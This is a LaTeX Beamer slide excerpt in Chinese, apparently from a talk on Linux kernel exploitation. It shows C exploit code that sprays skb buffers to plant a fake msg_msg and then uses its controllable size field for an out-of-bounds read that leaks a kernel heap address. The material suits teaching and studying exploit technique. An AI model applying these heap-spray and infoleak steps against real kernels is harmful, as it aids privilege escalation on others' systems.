 \documentclass[xcolor=table]{beamer}
\begin{document}
\begin{frame}[fragile]
\frametitle{skb堆喷并伪造辅助消息}
\tiny\begin{lstlisting}[language=c]
    // Reclaim the previously freed secondary message with a fake msg_msg of
    // maximum possible size.
    printf("[*] Spraying fake secondary messages...\n");
    memset(secondary_buf, 0, sizeof(secondary_buf));
    build_msg_msg((void *) secondary_buf, 0x41414141, 0x42424242,
                  PAGE_SIZE - MSG_MSG_SIZE, 0);
    if (spray_skbuff(ss, secondary_buf, sizeof(secondary_buf)) < 0)
        goto err_rmid;
\end{lstlisting}

\end{frame}



\begin{frame}[fragile]
\frametitle{泄露相邻辅助消息->主消息的堆地址}

\begin{columns}[c]
\footnotesize\begin{enumerate}
	\item 在skb堆喷并伪造辅助消息中发现m\_ts可控，也就是说我们可以通过控制m\_ts让内核将与该辅助消息相邻的辅助消息纳入消息缓冲区中，当读取该伪造辅助消息时，可以将相邻辅助消息的消息头泄露出来。
	\item 泄露相邻辅助的哪个成员：辅助消息的msg\_msg->list\_head->next指向主消息即内核堆地址，所以可以作为泄露对象。
	\item 至此成功泄露相邻辅助消息->主消息的堆地址。
\end{enumerate}

\tiny\begin{lstlisting}[language=c]
    // Use the fake secondary message to read out-of-bounds.
    printf("[*] Leaking adjacent secondary message...\n");
    if (peek_msg(msqid[fake_idx], &msg_fake, sizeof(msg_fake), 1) < 0)
        goto err_rmid;
    // Check if the leak is valid.
    if (*(int *) &msg_fake.mtext[SECONDARY_SIZE] != MSG_TAG) {
        printf("[-] Error could not leak adjacent secondary message.\n");
        goto err_rmid;
    }
    // The secondary message contains a pointer to the primary message.
    msg = (struct msg_msg *) &msg_fake.mtext[SECONDARY_SIZE - MSG_MSG_SIZE];
    kheap_addr = msg->m_list_next;
    if (kheap_addr & (PRIMARY_SIZE - 1))
        kheap_addr = msg->m_list_prev;
    printf("[+] kheap_addr: %\"PRIx64\"\n", kheap_addr);
\end{lstlisting}

	
\end{columns}




\end{frame}
\end{document}
